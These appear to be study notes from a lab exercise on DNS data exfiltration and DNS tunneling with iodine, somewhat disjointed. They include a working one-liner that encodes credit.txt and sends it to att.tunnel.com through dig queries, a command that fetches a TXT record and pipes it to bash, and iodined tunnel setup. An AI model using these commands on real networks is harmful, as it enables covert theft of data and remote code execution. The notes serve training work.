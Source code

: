 ## Table of Contents

- [Behavioral Signatures](#behavioral\signatures)

To perform exfiltration via the DNS protocol. you need to control a domain name and set up DNS records, including NS, A, or TXT. 
Domain: tunnel.com

To access the website, visit: http://10.10.55.97/ or https://10-10-55-97.p.thmlabs.com/

The DNS protocol is a common protocol and its primary purpose is to resolve domain names to IP addresses and vice versa. Even through the DNS protocol is not designed to transfer data, threat actors found a way to abuse and move data through it. 

What is DNS Data Exfiltration?
DNS is not a transport protocol, many organizations dont regularly monitor the DNS protocol! The DNS protocol is allowed in almost all firewalls in any organization network. For those reasons, threat actors prefer using the DNS protocol to hide their communications. The dns protocol has limitations that need to be takin into consideration, which are as follow:
- The maximum length of the Fully Qualified (FQDN) domain name (inlcuding seperators) is 255 characters.
- The subdomain name (label) length must not exceed 63 characters (not including .com, .net, etc)

Next, from the victim2 machine, we send the base64 data as a subdomain name with considering the DNS limitation as follows:  

Send the Encoded data via the dig command  

```markup
thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
```


to view the TXT record 
1. Confirm
```
thm@victim2$ dig +short -t TXT script.tunnel.com
```
2. decode the output from base64 adn execute the command within the script
```
thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```


**DNS Tunneling**

This technique is also known as TCP over DNS, where an attacker encapsulates other protocols, such as HTTP requests, over the DNS protocol using the DNS Data Exfiltration technique. DNS tunneling establishes a communication channel where data is sent and received continoutsly.

We will be using the [iodine](https://github.com/yarrick/iodine) tool for creating our DNS tunneling communications. Note that we have already installed [iodine](https://github.com/yarrick/iodine) on the JumpBox and Attacker machines. To establish DNS tunneling, we need to follow the following steps:

1. Ensure to update the DNS records and create new NS points to your AttackBox machine. or use the preconfigured nameserver, which points to the Attacker machine (att.tunnel.com=172.20.0.200) 
2. Run iodined server from attackbox or the attacker machine
3. 1. On JumpBox, run the iodine client to establish the connection. (note for the client side we use iodine - without **d)**
4. SSH to the machine on the created network interface to create a proxy over DNS. We will be using the -D argument to create a dynamic port forwarding.
5. Once an SSH connection is established, we can use the local IP and the local port as a proxy in Firefox or ProxyChains.
6. 

Let's follow the steps to create a DNS tunnel. First, let's run the server-side application (iodined) as follows,

Running iodined Server  

```markup
thm@attacker$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com                                                                                                                                                                     
Opened dns0
Setting IP of dns0 to 10.1.1.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain att.tunnel.com
```

Let's explain the previous command a bit more:

- Ensure to execute the command with sudo. The iodined creates a new network interface (dns0) for the tunneling over the DNS.
- The -f argument is to run the server in the foreground.
- The -c argument is to skip checking the client IP address and port for each DNS request.
- The -P argument is to set a password for authentication.
-  The 10.1.1.1/24 argument is to set the network IP for the new network interface (dns0). The IP address of the server will be 10.1.1.1 and the client 10.1.1.2.
- att.tunnel.com is the nameserver we previously set.

**Wrapping Up**
Basic data exfiltration techniques/protocols:
- TCP Sockets
- SSH
- HTTP/HTTPS
- ICMP
- DNS

https://lots-project.com/

Data exfiltration is not limited to protocols and methods discusses above. The above link is a living off truster sites that could be used to exfiltrate data or C2 Communication using legitimate websites




# Behavioral Signatures

Obfuscating functions and properties can achieve a lot with minimal modification. 